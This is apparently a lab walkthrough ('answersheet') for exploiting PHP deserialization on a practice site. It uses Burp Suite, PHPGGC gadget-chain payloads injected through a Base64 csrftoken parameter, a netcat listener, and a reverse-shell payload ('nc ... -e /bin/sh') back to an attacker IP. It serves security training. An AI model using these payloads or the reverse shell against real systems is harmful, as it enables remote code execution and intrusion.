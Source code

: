 # PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />


**Step 3:** Capture the request in Burp Suite proxy and observe that the "csrftoken" parameter contains Base64 data.<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />


**Step 4:** Decode the value using Base64, and identify the serialized data.<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serealized payload using the following command and capture the generated payload.<br />
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />


**Step 7:** Provide the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send the request. Observe that the server responds with the output of command "id". <br />
<kbd> <img src="7.png" /> </kbd>
<br /> <br />


**Step 8:** Start the listener using the following command.<br />
```
nc -nlvp 6666
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />


**Step 9:** Capture the system IP Address and use that to generate the payload of reverse shell using the following command and capture the payload.<br />
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/sh"
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />


**Step 10:** Provide the payload captured in **Step 9** in the "csrftoken" parameter in **Step 5** and click on "send" button. <br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />